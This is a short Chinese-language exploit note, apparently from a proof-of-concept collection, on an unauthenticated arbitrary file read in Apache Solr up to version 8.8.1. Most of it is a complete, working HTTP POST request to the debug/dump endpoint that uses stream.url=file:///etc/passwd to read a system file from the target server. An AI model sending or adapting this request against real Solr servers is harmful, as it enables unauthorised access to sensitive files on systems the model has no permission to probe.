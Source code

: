 ### 描述
Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件。  
影响版本：Apache Solr <= 8.8.1
### POC &EXP
构造读取/etc/passwd的包
```html
POST /solr/demo/./debug/dump?param=ContentStreams HTTP/1.1
Host: 127.0.0.1:8983
Content-Length: 29
Content-Type: application/x-www-form-urlencoded
Connection: close
 
stream.url=file:///etc/passwd
```
